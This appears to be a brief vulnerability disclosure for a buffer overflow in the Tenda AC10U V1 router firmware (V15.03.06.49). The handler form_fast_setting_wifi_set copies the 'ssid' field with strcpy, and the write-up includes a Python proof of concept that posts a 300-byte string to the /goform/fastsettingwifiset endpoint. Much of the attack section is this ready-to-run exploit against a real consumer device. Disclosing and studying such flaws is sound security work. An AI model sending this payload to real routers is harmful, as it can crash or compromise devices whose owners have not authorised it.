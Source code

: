 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/form_fast_setting_wifi_set

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](1.png)

get value from ssid and call strcpy ,cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/fastsettingwifiset"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'ssid': payload})
```
